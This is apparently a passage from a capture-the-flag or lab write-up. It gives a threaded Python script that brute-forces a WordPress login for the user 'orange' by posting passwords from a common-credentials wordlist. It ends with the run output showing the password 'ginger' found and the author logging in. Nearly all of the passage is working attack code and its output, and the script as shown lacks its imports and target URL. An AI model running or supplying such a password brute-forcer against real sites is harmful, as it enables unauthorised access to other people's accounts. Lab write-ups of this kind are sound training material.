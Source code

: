 ```bash
user="orange"
print_lock=threading.Lock()

def bflogin(passwd):
    data={
            'log':user,
            'pwd':passwd,
            'wp-submit':'Log+In'
            }

    r=requests.post(url,data=data)

    if 'ERROR' not in r.text:
        with print_lock:
            print(f"{green}[+] Found: {passwd:20}{reset}")
            os._exit(1)
    else:
        with print_lock:
            print(f"{gray}[-] Password {passwd:15}{reset}", end='\r')

def threader():
    while True:
        worker=q.get()
        bflogin(worker)
        q.task_done()

q=Queue()

for x in range(10):
    t=threading.Thread(target=threader)
    t.daemon=True
    t.start()

wordlist=open("/opt/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt").read().splitlines()

for p in wordlist:
    q.put(p)

q.join()
```

I ran the script, after a few seconds I found the password for the orange user, and logged in.

```bash
 root@kali:~$ python3 wpbforce.py
[+] Found: ginger
```
